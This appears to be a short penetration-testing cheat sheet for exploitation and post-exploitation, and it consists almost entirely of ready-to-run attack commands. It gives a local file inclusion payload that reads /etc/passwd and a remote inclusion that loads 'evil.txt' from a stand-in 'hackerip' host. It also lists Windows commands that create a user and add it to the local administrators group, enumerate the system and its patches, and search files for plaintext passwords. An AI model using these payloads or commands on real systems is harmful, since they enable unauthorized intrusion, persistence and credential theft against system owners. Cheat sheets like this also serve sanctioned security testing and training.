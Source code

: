 # Exploitation and Post-Exploitation CheatSheet

## &#x20;

## **Local File inclusions**

Test if the box is vulnerable to LFI

```
http://target.com/?page=./../../../../../../../../../etc/passwd%00
```

Test if you can excute your local script in the victim machine.

```
http://target.com/?page=http://hackerip/evil.txt%00
```

## **Windows Exploitiation**

Add user

```
net user $username $password /add
```

Add a user to a group

```
net localgroup "$groupname" $username /add
```

Create an local administrator account

```
net localgroup administrators $username /add
```

Find out Windows System Information&#x20;

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Windows Patch Status

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Find Plaintext Password

```
findstr /si password .txt 
findstr /si password .xml 
findstr /si password *.ini
```
